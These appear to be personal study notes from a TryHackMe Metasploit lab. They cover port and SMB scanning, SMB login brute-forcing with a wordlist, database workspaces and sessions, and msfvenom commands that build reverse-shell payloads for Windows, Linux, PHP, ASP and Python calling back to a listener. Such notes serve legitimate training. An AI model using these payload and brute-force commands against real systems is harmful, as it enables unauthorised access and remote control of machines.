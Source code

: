### MSF
Port Scanning
You can list potential port scanning modules available using >>> search portscan

CONCURRENCY
Number of targets to be scanned simultaneously.

PORTS: 
Port range to be scanned. Please note that 1-1000 here will not be the same as using Nmap with the default configuration. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.

RHOSTS: 
Target or target network to be scanned.

THREADS: 
Number of threads that will be used simultaneously. More threads will result in faster scans.

### NMAP IN MSF
You can directly perform Nmap scans from the msfconsole prompt as shown below faster:
msf6 > nmap -sS 10.10.12.229

### UDP service Identification
module will allow you to quickly identify services running over the UDP
scanner/discovery/udp_sweep

### SMB Scans
smb_enumshares and smb_version

### Brute force SMB using a wordlist
auxiliary/scanner/smb/smb_login 
set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt

### Metasploit Database
PostgreSQL database which Metasploit will use with the following command: 
systemctl start postgresql

Initialize the Metasploit Database using the 
msfdb init

 You can now launch 
 msfconsole

 check the database status using the 
 db_status

The database feature will allow you to create workspaces to isolate different projects. When first launched, you should be in the default workspace. You can list available workspaces using the 
workspace

 You can add a workspace using the -a parameter or delete a workspace using the -d parameter
 workspace -a tryhackme

 You can use the workspace command to navigate between workspaces simply by typing workspace followed by the desired workspace name.

  You can use the workspace -h command to list available options for the workspace command.  

 If you run a Nmap scan using the db_nmap shown below, all results will be saved to the database. 

You can now reach information relevant to hosts and services running on target systems with the hosts and services commands, respectively. 
hosts
services

 The hosts -h and services -h commands can help you become more familiar with available options. 

 Once the host information is stored in the database, you can use the hosts -R command to add this value to the RHOSTS parameter.
 If there is more than one host saved to the database, all IP addresses will be used when the hosts -R command is used.  

 The services command used with the -S parameter will allow you to search for specific services in the environment. 

 session is opened, you can background it using CTRL+Z or abort it using CTRL+C

 ### Working with sessions
 sessions

 You can interact with any existing session using the sessions -i command followed by the session ID.

### Search files in meterpreter session (WINDOWS)
search -f flag.txt

### MSF VENOM ####
All payloads 
msfvenom -l payloads

You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). Themsfvenom --list formats command can be used to list supported output formats

### Encoders
Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the -e parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was raw. 

### Handlers
The exploit steps are;

    1. Generate the PHP shell using MSFvenom
    2. Start the Metasploit handler
    3. Execute the PHP shell 
Example: msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

Please note: The output PHP file will miss the starting PHP tag commented and the end tag (?>), as seen below. 
from /*<?php /**/
to <?php


end ?>

The reverse_shell.php file should be edited to convert it into a working PHP file. 

add the  <?php in starting of the payload and ?> at the end of the payload.	

We will use Multi Handler to receive the incoming connection. The module can be used with the use exploit/multi/handler command.

Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.

To use the module, we will need to set the payload value (php/reverse_php in this case), the LHOST, and LPORT values. 

Once everything is set, we will run the handler and wait for the incoming connection. 

### Other Payloads

Linux Executable and Linkable Format (elf)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line. 

 Windows 
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

 PHP
 msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

 ASP
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

 Python
 msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py